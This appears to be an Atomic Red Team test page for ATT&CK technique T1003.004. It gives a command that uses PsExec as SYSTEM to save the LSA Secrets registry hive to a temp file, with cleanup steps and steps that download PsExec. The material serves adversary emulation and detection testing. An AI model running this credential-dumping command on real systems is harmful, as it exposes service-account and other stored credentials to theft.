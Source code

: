 # T1003.004 - OS Credential Dumping: LSA Secrets
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)
<blockquote>Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)


<br/>

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{psexec_exe} -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{psexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PSTools.zip"
Expand-Archive $env:TEMP\PSTools.zip $env:TEMP\PSTools -Force
New-Item -ItemType Directory (Split-Path #{psexec_exe}) -Force | Out-Null
Copy-Item $env:TEMP\PSTools\PsExec.exe #{psexec_exe} -Force
```




<br/>
